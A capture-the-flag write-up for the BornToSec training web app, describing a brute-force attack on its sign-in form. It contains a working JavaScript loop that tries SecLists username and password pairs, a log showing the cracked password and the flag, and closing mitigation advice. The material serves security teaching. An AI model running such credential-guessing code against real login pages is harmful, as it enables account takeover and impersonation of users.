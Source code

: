 # Sign in form Bruteforce

## How we found the breach

On the page `http://IP/?page=signin` we can find the sign in form, it takes a username and a password.

After hacking into the server database we found several user's usernames in database.

To see how we've scanned the data please look at:

[SQL injection on members table explanation →](../../sql_injection_members_table/Ressources/README.md)

```js
// Only surname
"me", "GetThe",
// Surname + First name
"GetTheFlag", "meone", "metwo", "methree",
```

Also after scanning the whole database we did not found any password columns in any tables.

This is why we went for the bruteforce option, even more when there's not visible protection about it after several attempts.

### The Bruteforce script

We will use the following password and usernames dataset for the form inputs value:

- [usernames →](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
- [passwords →](https://github.com/danielmiessler/SecLists/blob/master/Passwords/darkweb2017-top1000.txt)

We will then hit the endpoint below with all the possibilities until the server returns an authenticated page.

```js
`http://IP/?page=signin&username=${username}&password=${password}&Login=Login#`
```

#### The main logic

```js
  await Promise.all(usernameCollection.map(async username => {
        for (const password of passwordCollection) {
            try {
                const endpointToHit = getEndpoint({ username, password });
                const response = await fetch(endpointToHit);
                const renderedPage = await response.text()
                const attemptFailed = renderedPage.includes(BAD_AUTH_ERROR_IMAGE)

                // In case of wrong authentication attempt the following image is rendered by the server
                // The Status code stays 200
                // <img src="images/WrongAnswer.gif" alt=""> 
                if (attemptFailed) {
                    console.log(`FAILURE for pair: username=${username} password=${password}`)
                    continue
                } else {
                    console.log(`SUCCESS for pair: username=${username} password=${password}`)
                    console.log({ renderedPage })
                    console.log('_'.repeat(10))
                    break;
                }

            } catch (e) {
                console.log(`Unknown error on attempt for username=${username} password=${password}`)
                continue
            }
        }
    }))
```

Run the script using (do not forget to install the dependencies before):
```bash
node script.js
```

After running the script, it leads to a successful attempt for all the concurrent users on the 95th password: `shadow`.
Indeed the username is not mandatory, filling the password input with `shadow` is enough the retrieve the flag from the server.

#### Log snippet

```zsh
# ...
FAILURE for pair: username=wil password=696969
FAILURE for pair: username=admin password=letmein
FAILURE for pair: username=metwo password=696969
FAILURE for pair: username=methree password=696969
FAILURE for pair: username=meone password=696969
FAILURE for pair: username=GetThe password=696969
FAILURE for pair: username=GetTheFlag password=696969
SUCCESS for pair: username=wil password=shadow
{
  renderedPage: '<!DOCTYPE HTML>\n' +
    '<html>\n' +
    '\t<head>\n' +
    '\t\t<title>BornToSec - Web Section</title>\n' +
    '\t\t<meta http-equiv="content-type" content="text/html; charset=utf-8" />\n' +
    '\t\t<meta name="description" content="" />\n' +
    '\t\t<meta name="keywords" content="" />\n' +
    '\t\t<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->\n' +
    '\t\t<script src="js/jquery.min.js"></script>\n' +
    '\t\t<script src="js/skel.min.js"></script>\n' +
    '\t\t<script src="js/skel-layers.min.js"></script>\n' +
    '\t\t<script src="js/init.js"></script>\n' +
    '\t\t<noscript>\n' +
    '\t\t\t<link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />\n' +
    '\t\t\t<link rel="icon" type="image/x-icon" href="favicon.ico" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/skel.css" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/style.css" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/style-xlarge.css" />\n' +
    '\t\t</noscript>\n' +
    '\t</head>\n' +
    '\t<body class="landing">\n' +
    '\t\t<!-- Header -->\n' +
    '\t\t<header id="header" >\n' +
    '\t\t\t\t\t\t\t\t<a href=http://192.168.56.101><img src=http://192.168.56.101/images/42.jpeg height=82px width=82px/></a>\n' +
    '\t\t\t\t\t\t\t\t<nav id="nav">\n' +
    '\t\t\t\t\t<ul>\n' +
    '\t\t\t\t\t\t<li><a href="index.php">Home</a></li>\n' +
    '\t\t\t\t\t\t<li><a href="?page=survey">Survey</a></li>\n' +
    '\t\t\t\t\t\t<li><a href="?page=member">Members</a></li>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t</nav>\n' +
    '\t\t\t</header>\n' +
    '\n' +
    '\t\t<!-- Main -->\n' +
    '\t\t\t<section id="main" class="wrapper">\n' +
    '\t\t\t\t<div class="container" style="margin-top:75px">\n' +
    '<center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>\t\t\t\t</div>\n' +
    '\t\t\t</section>\n' +
    '\t\t<!-- Footer -->\n' +
    '\t\t\t<footer id="footer">\n' +
    '\t\t\t\t<div class="container">\n' +
    '\t\t\t\t\t<ul class="icons">\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=facebook" class="icon fa-facebook"></a></li>\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=twitter" class="icon fa-twitter"></a></li>\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=instagram" class="icon fa-instagram"></a></li>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t\t<ul class="copyright">\n' +
    '\t\t\t\t\t\t<a href="?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"><li>&copy; BornToSec</li></a>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t</div>\n' +
    '\t\t\t</footer>\n' +
    '\t</body>\n' +
    '</html>\n' +
    '\n'
}
__________
# ...
```

## How to exploit the breach

From there we could perform any operation we want inside the application, authenticated as the hacked user.

For example for mailBox account we could send emails impersonating the hacked user.

And overall we could even change the user's password depending on the application security rigor.

## How to avoid the breach

Several solution or good practices exist, such as limiting the amount of request from the same IP or adding a recaptcha usage on the form.

[2FA](https://en.wikipedia.org/wiki/Multi-factor_authentication) authentication such a google Authenticator, requesting the user to validate it's identity on one of his other devices.
